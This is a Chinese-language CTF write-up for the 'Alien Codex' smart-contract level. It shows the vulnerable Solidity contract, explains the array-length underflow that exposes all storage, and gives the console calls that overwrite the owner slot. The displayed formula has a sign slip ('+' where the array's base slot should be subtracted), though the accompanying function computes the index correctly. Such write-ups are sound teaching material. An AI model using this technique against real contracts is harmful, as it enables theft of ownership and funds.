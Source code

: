 # Alien Codex

> 你打开了一个 Alien 合约. 申明所有权来完成这一关.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract Ownable {
    address private _owner;

    event OwnershipTransferred(address indexed previousOwner, address indexed newOwner);

    /**
     * @dev Initializes the contract setting the deployer as the initial owner.
     */
    constructor () internal {
        _owner = msg.sender;
    }

    /**
     * @dev Returns the address of the current owner.
     */
    function owner() public view returns (address) {
        return _owner;
    }

    /**
     * @dev Throws if called by any account other than the owner.
     */
    modifier onlyOwner() {
        require(isOwner(), "Ownable: caller is not the owner");
        _;
    }

    /**
     * @dev Returns true if the caller is the current owner.
     */
    function isOwner() public view returns (bool) {
        return msg.sender == _owner;
    }

    /**
     * @dev Leaves the contract without owner. It will not be possible to call
     * `onlyOwner` functions anymore. Can only be called by the current owner.
     *
     * > Note: Renouncing ownership will leave the contract without an owner,
     * thereby removing any functionality that is only available to the owner.
     */
    function renounceOwnership() public onlyOwner {
        emit OwnershipTransferred(_owner, address(0));
        _owner = address(0);
    }

    /**
     * @dev Transfers ownership of the contract to a new account (`newOwner`).
     * Can only be called by the current owner.
     */
    function transferOwnership(address newOwner) public onlyOwner {
        _transferOwnership(newOwner);
    }

    /**
     * @dev Transfers ownership of the contract to a new account (`newOwner`).
     */
    function _transferOwnership(address newOwner) internal {
        require(newOwner != address(0), "Ownable: new owner is the zero address");
        emit OwnershipTransferred(_owner, newOwner);
        _owner = newOwner;
    }
}

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

## 攻击思路

solidity在v0.6.0+commit.26b70077版本前，允许变长数组的长度属性被程序员修改。

所以如果我们将一个长度为0的变成数组的长度减一，就会触发内存溢出，将长度从零变为115792089237316195423570985008687907853269984665640564039457584007913129639935（256位全是1）。

而solidty的内存插槽一共有 2^256 个（每个插槽有256bits = 32bytes）,这样如果这个数组的类型为bytes32类型，那么就意味着，该变长数组可以访问和修改所有数据。

只要我们知道了特定变量的数据所在插槽，就可以修改该变量，比如将owner修改。

**不过在v0.6.0+commit.26b70077版本开始，变长数组的长度属性已经变为只读变量。不能修改了。**如果尝试修改就会出现如下错误：

```
TypeError: Member "length" is read-only and cannot be used to resize arrays.
```

## 攻击流程

### 前摇

首先，查看合约中owner变量存储在哪个插槽，合约一共有3个变量。

```solidity
address private _owner;// address 占20字节，在插槽slot0中，此时插槽slot0还剩10字节
bool public contact;// bool 占1个字节，在插槽slot0中，此时插槽slot0还剩9字节
bytes32[] public codex;// bytes32 占32字节，插槽slot0中不够存储，所以codex变量存储在插槽slot1中。
```

不过插槽slot1中存储的是，变长数组codex的长度属性，即codex.length。codex的第一个数据（codex[0]）存储在插槽下标为sha3(byte32(1)) = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6（此时应该把这个看作数字而不是字符串）的插槽中。所以我们只需找到插槽slot0属于变长数组的第几个元素（即找到slot0在数组codex的下标是多少）。

一共2^256个插槽，插槽下标从0开始。插槽编号 [0 ~ 2^256) 半闭半开。所以slot0在codex的下标为 
$$
\mathop{{2}}\nolimits^{{256}} - 1 + 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 +1
$$

$$
= 35707666377435648211887908874984608119992236509074197713628505308453184860938
$$

计算合约

```solidity
function cala() public pure returns (uint256){
    bytes32 index = keccak256(abi.encode(1));
    uint L = 0;
    return (L - 1) - uint256(index) + 1;
  }
```

**另外，在v0.8.0+commit.c7dfd78e版本开始，solidity内置里safeMath，在代码执行时（编译阶段不会判断）会对溢出做判断（VM error: revert）。已经不会出现 0 - 1 = 2^256 的问题了。**

### 正片

调用合约的make_contact函数开启合约

```js
await contract.make_contact()
```

使变长数组的长度下溢出

```js
await contract.retract()
```

覆盖slot0中内容,将owner变成自己的账号

```js
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x00000000000000000000000033AC5f3A75BE5F8720650bD2821118689FeF85d1')
```

提交实例，攻击成功，收。
